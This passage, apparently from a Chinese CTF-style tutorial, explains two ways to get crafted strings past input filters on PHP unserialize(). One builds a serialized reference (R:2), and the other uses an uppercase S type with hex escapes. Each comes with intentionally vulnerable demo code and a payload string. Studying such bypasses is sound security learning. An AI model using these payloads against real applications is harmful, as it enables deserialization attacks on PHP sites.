 ### 利用引用绕过

  
如下，要求输出 you success，但构造的序列化字符串中不能由 aaa

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <?phpclass test {    public $a;    public $b;    public function __construct(){        $this->a = 'aaa';    }    public function __destruct(){         if($this->a === $this->b) {            echo 'you success';        }    }}if(isset($_REQUEST['input'])) {    if(preg_match('/aaa/', $_REQUEST['input'])) {       die('nonono');    }    unserialize($_REQUEST['input']);}else {    highlight_file(__FILE__);}

  
可以利用引用进行绕过

  *   *   *   *   *   *   *   *   *   * 

    
    
    class test {    public $a;    public $b;    public function __construct(){        $this->b = &$this->a;    }}$a = serialize(new test());echo $a;//O:4:"test":2:{s:1:"a";N;s:1:"b";R:2;}

  
构造引用使得 $b 和 $a 地址相同从而绕过检测，达成要求。

###  

### 16进制绕过字符的过滤

  
序列字符串中表示字符类型的s大写时，会被当成16进制解析。  
举个栗子：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <?phpclass test{    public $username;    public function __construct(){        $this->username = 'admin';    }    public function  __destruct(){        echo 'success';    }}function check($data){    if(preg_match('/username/', $data)){        echo("nonono!!!</br>");    }    else{        return $data;    }}// 未作处理前，会被waf拦截$a = 'O:4:"test":1:{s:8:"username";s:5:"admin";}';$a = check($a);unserialize($a);// 将小s改为大S; 做处理后 \75是u的16进制， 成功绕过$a = 'O:4:"test":1:{S:8:"\\75sername";s:5:"admin";}';$a = check($a);unserialize($a);

  
输出  
![](https://gitee.com/fuli009/images/raw/master/public/20230301180819.png)

##  

##  

    
    
    五  
    
    
      
    
    